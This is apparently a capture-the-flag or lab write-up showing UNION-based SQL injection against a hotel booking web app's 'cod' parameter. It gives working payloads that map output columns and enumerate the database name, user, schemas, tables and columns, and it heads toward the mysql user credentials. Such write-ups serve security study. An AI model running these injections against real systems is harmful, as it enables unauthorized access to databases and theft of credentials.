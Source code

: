 I made injection with `?cod=-1 UNION SELECT 1,2,3,4,5,6,7` and the web app showed me where each column is located at. 

![](https://i.imgur.com/Px21lw0.png)


Column 5: Picture
Column 2: Room Title
Column 3: Price
Column 4: Description

This meant that I can use the above four columns to query information from the table and see the output on the webapp page. If I query with columns, 1,6, 7, I won't be able to see output on web app.

#### database(), user()

`?cod=-1 UNION select 1,database(),user(),4,5,6,7`

![](https://i.imgur.com/QVfBPYe.png)


##### List DBs	

`?cod=-1 UNION SELECT 1, group_concat(schema_name),3,4,5,6,7 from information_schema.schemata`

![](https://i.imgur.com/SZbRIM9.png)


#### Show Tables in hotel	

`?cod=-1 UNION SELECT 1, group_concat(table_name), 3, 4, 5, 6, 7 from information_schema.tables where table_schema=%27hotel%27 ;-- -`

![](https://i.imgur.com/5E4Jc6S.png)


##### Show Columns in room	

`?cod=-1 UNION SELECT 1, group_concat(column_name), 3, 4, 5, 6, 7 from information_schema.columns where table_name='room';-- -`


![](https://i.imgur.com/lVuARoq.png)


#### Show Tables in mysql	

`?cod=-1 UNION SELECT 1, group_concat(table_name), 3, 4, 5, 6, 7 from information_schema.tables where table_schema='mysql' ;-- -`

![](https://i.imgur.com/Bf8YpGI.png)



#### Show Columns in user	


#### Get Username / Password
